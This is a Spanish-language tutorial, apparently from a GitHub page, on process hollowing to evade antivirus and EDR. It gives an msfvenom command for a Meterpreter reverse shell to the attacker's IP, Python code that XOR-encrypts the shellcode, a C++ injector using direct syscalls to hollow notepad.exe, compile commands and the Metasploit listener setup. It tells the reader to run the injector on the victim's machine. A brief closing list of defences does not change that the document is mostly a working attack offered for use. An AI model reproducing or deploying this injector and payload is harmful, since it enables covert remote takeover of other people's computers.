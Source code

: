 # Guía Avanzada: Process Hollowing para Evasión de AV/EDR

## 🎭 **1. ¿Qué es Process Hollowing?**

Process Hollowing es una técnica en la que:

1. Se crea un proceso suspendido de un binario legítimo (ej. `notepad.exe`).
2. Se reemplaza su código con un payload malicioso.
3. Se reanuda el proceso con el código malicioso ejecutándose en su espacio de memoria.

Esta técnica permite evadir muchos antivirus porque el proceso parece legítimo.

---

## 🛠 **2. Generar el Payload de Meterpreter**

Ejecutar en Kali Linux:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=TU_IP LPORT=PUERTO -f raw -o shellcode.bin
```

- `LHOST`: IP del atacante.
- `LPORT`: Puerto de escucha.

---

## 🏗 **3. Cifrar el Shellcode**

Para evadir detección, aplicamos un cifrado simple XOR:

```python
shellcode = open("shellcode.bin", "rb").read()
encrypted_shellcode = bytearray([b ^ 0x55 for b in shellcode])

with open("shellcode_encrypted.bin", "wb") as f:
    f.write(encrypted_shellcode)
```

Este `shellcode_encrypted.bin` se incluirá en `encrypted_shellcode[]` en el código C++.

---

## 💻 **4. Código Mejorado en C++**

Este código usa **syscalls directas** para evitar detección por antivirus:

```cpp
#include <windows.h>
#include <iostream>
#include <vector>
#include "syscalls.h"  // Implementación de syscalls directas

unsigned char encrypted_shellcode[] = { /* Shellcode cifrado */ };
size_t shellcode_size = sizeof(encrypted_shellcode);

void decrypt_shellcode(unsigned char* shellcode, size_t size) {
    for (size_t i = 0; i < size; i++) {
        shellcode[i] ^= 0x55;
    }
}

int main() {
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    if (!NtCreateProcess("C:\\Windows\\System32\\notepad.exe", &si, &pi)) {
        std::cerr << "Error al crear el proceso" << std::endl;
        return 1;
    }
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    NtGetThreadContext(pi.hThread, &ctx);
    LPVOID alloc = NULL;
    NtAllocateVirtualMemory(pi.hProcess, &alloc, 0, &shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    decrypt_shellcode(encrypted_shellcode, shellcode_size);
    NtWriteVirtualMemory(pi.hProcess, alloc, encrypted_shellcode, shellcode_size, NULL);
    #ifdef _WIN64
        ctx.Rip = (DWORD64)alloc;
    #else
        ctx.Eip = (DWORD)alloc;
    #endif
    NtSetThreadContext(pi.hThread, &ctx);
    NtResumeThread(pi.hThread);
    std::cout << "Proceso inyectado exitosamente" << std::endl;
    return 0;
}
```

---

## 🔧 **5. Compilar el Código**

### 📌 **Con MinGW**

```bash
x86_64-w64-mingw32-g++ process_hollowing_adv.cpp -o injector.exe -static -lntdll
```

### 📌 **Con Visual Studio**

```bash
cl.exe /EHsc process_hollowing_adv.cpp /Fe:injector.exe
```

---

## 🎯 **6. Configurar Metasploit para Recibir la Conexión**

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST TU_IP
set LPORT PUERTO
exploit
```

---

## 🚀 **7. Ejecutar el **``** en la Máquina Víctima**

```bash
injector.exe
```

Si todo sale bien, se abrirá `notepad.exe`, pero realmente ejecutará **Meterpreter** en segundo plano.

---

## 🛡 **8. Cómo Defenderse**

Para hacer el informe más completo, menciona las defensas contra este ataque: ✅ **Windows Defender ASR Rules** → Bloquear procesos suspendidos. ✅ **Sysmon + SIEM** → Detectar procesos que escriben en otros procesos. ✅ **EDR (CrowdStrike, SentinelOne, etc.)** → Monitorear ejecución de código en memoria.

---

## 📌 **Conclusión**

✅ Ahora tienes un `injector.exe` con **syscalls directas, cifrado y menos indicadores forenses**. Si quieres más mejoras como **inyección en **``** o técnicas anti-debugging**, ¡sigue investigando! 😈🚀

